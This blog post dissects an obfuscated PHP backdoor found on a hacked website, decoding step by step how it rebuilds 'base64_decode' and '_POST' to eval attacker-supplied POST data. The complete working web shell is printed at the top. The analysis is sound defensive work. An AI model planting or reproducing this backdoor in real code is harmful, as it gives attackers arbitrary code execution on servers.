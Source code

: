 ```yaml
---
layout: post
title: Anatomy of a PHP Hack
tags:
- php
- security
---
```

It's hard to come up with a title for this - but - basically I found some rogue code the other day that I thought was pretty interesting. I was fixing a "hacked" website when I came across the source of the symptoms of the hack.  One file had the following code in it:

```php?start_inline=1
$zgjv56 = "o_esb4da6ctp" ; 
$fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
$gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ; 
if( isset( ${ $gfc4 }['n89024b' ] )){
    eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;
}
```

This obfuscated code is doing something bad, but we don't know what at first glance.  Obviously, the solution is to remove it - but - aren't you a little curious what it was doing?  Let's take a look.

First, the `$zgjv56` variable has unique letters and numbers and an underscore.  It looks like `$fzba02` is created by picking out various offsets (remember, you can access a character of a PHP string in the same manner as you might query an array index).   It's weird that it's calling `strtolower()` though - because all the values are lower.  So, let's figure out what the value of `$fzba02` actually is.

> Important note: When you're testing PHP code that you're unsure of, run it in a sandboxed virtual machine that has no access to the internet or your local device.

```
php > $zgjv56 = "o_esb4da6ctp";
php > $fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
php > echo $fzba02;
base64_decode
```

Ah - so the variable is the value `base64_decode` - nice.  

> Why random variable names and why `base64_decode`? The random variable names make it harder to understand what the code is doing. It's like the difference between using `$counter` and `$c` - one is more obvious than the other.  The base 64 encoding is done most likely for a weak obfuscation attempt again.

The next line creates another variable based off of our initial string - let's check it out:

```
php > $gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ;
php > echo $gfc4;
_POST
```

So, this variable is targeting the magic/global PHP variable `$_POST` - ok - I'm starting to get a picture of what we may figure out next.  There is something that will be base 64 encoded and posted to this script.

This PHP line gives us the indicator of what wakes up the script:

```php?start_inline=1
if( isset( ${ $gfc4 }['n89024b' ] )){

// translates to:
if (isset($_POST['n89024b'])) {
```

Again, a random variable/string in `n89024b` - but this says - if there is a post request to this page using the variable `n89024b` - we should do something.  That variable name is very likely not to be picked by the main application - so it's safe for this script to accept/intercept those values and do it's task.

```php?start_inline=1
eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;

// translates to
eval(base64_decode($_POST['n89024b']));
```

Whenever you see `eval()` you should be afraid - but what is this really doing?  Its basically taking anything that is posted in a base 64 encoding with a specific variable and executing it directly in the context of this script.  This obfuscated script indicates that the user of this basically had free reign to run anything on the server at any time.  The easy fix is removing this code - the hard part is figuring out what / if they used this for other nefarious purposes on your server.
